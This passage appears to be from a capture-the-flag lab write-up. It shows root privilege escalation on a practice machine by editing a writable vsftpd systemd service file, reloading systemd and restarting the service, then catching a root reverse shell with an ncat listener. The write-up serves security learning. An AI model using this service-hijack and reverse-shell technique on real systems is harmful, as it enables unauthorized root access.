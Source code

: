 You will need to run `systemctl daemon-reload` after modifying the file to reload the config. Source: https://www.shellhacks.com/systemd-service-file-example/

```bash
drac@ide:/dev/shm$ cp /lib/systemd/system/vsftpd.service vsftpd.service.bak
drac@ide:/dev/shm$ vim /lib/systemd/system/vsftpd.service 
drac@ide:/dev/shm$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.                                                                                                      
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:/dev/shm$ systemctl status vsftpd.service                                                                                               
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2022-11-08 10:09:52 UTC; 8min ago
 Main PID: 30361 (vsftpd)
    Tasks: 1 (limit: 1103)
   CGroup: /system.slice/vsftpd.service
           └─30361 /usr/sbin/vsftpd /etc/vsftpd.conf

```

Its good to check the service status again, to ensure that our modification of the `vsftpd.service` file did not result in any errors. Otherwise we would see a "Loaded: error"

**NOTE:** Initially I did not add the `/bin/bash -c` part to the *ExecStart* string. Its only after getting errors and asking for a hint on the THM Discord that I figured out that it had to be done this way.

Now, the moment of truth.
```bash
drac@ide:/dev/shm$ sudo /usr/sbin/service vsftpd restart

---
└─$ ncat -lnvp 443 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.180.194.
Ncat: Connection from 10.10.180.194:56246.
bash: cannot set terminal process group (31614): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# 

```

DONE!! Have a great day!!
